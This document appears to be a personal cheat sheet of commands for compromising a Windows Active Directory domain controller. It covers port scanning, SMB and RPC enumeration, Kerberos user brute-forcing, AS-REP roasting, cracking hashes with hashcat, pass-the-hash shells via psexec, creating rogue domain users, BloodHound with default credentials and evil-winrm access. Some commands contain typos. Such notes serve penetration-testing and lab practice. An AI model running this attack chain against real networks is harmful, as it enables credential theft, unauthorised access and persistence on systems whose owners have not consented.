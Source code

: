 ### Nmap Scan 
- `nmap -p 53,135,139,88,389,445,464,593,636,3268,3269,5985,9389,49676,49696,49674,49675,49667,49666 -sV -sC -T16 -Pn -oA $IP $IP`

### Get Domain name
- `smbmap -H $IP`

### Get user's list
- `GetADUsers.py $DOMAIN.local/ -dc-ip $IP -debug`

### Brute-force users on Domain
- `kerbrute userenum -d $DOMAIN.LOCAL /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt — dc $IP`

### SAMBA
- `smbclient -L \\\\$IP -N` Enumerate
- `smbclient \\\\$IP/SHARE` login to share
- `smbclinet -U "" \\\\$IP/SHARE` anonymous login

### Get Hashes
- `GetNPUsers.py '$DOMAIN' -usersfile users.txt -format hashcat -outputfile hashes.aspreroast -dc-ip $IP`

### Crack Hashes
- `hashcat -m 18200 hashes.aspreroast /usr/share/wordlists/rockyou.txt — force`

### Shell
`psexec.py -hashes '$HASH' dc-ip $IP $User@$IP`

### rpcclient
- `rpcclient -U "" -N $DOMAIN` Connect to rpcclient
- `enumdomusers` Enumerate Domain Users
-  `queryuser $RID` Enumerate User
- `enumdomgroups` Enumerate Domain Groups
- `getdomwinfo` Domain Password Information 
- `createdomuser $NAME` ,`setuserinfo2 $NAME 24 $PASSWORD` Creating Domain User

<!-- -->
[Enumerating AD with rpcclient](https://www.hackingarticles.in/active-directory-enumeration-rpcclient/)

### BloodHound
starting BloodHound
- `sudo neo4j console`
- `bloodhound`
 <!-- -->
 
 Credentials
- `Username: neo4j`
- `Password: BloodHound`

<!-- -->

### Misc
- `ruby evil-winrm.rb -i $IP -u $USER -p $PASS`
- `pwsh` to run powershell on kali


[WADComs](https://wadcoms.github.io/)